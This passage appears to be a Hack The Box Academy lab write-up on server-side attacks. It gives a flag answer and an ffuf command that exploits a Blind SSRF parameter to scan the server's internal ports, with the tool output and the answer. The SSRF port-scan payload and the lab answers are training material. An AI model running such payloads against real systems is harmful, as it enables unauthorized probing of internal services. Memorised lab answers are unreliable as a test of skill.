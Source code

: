 Answer: `HTB{61ea58507c2b9da30465b9582d6782a1}`

## Section 04 - Blind SSRF

1. Exploit the SSRF to identify open ports on the system. Which port is open in addition to port 80?

We can use `ffuf` to fuzz as we did in the **Identifying SSRF** section

```shell
ffuf -w server-side-attacks/ports.txt \
-u http://SERVER-IP/index.php \
-X POST -H "Content-Type: application/x-www-form-urlencoded" \
-d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" \
-fr "Something went wrong*"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://SERVER-IP/index.php
 :: Wordlist         : FUZZ: /home/kali/Documents/server-side-attacks/ports.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Something went wrong*
________________________________________________

80                      [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 3905ms]
5000                    [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 282ms]

```

Answer: `5000`

## Section 05 - Preventing SSRF
No questions

## Section 06 - Template Engines
No questions
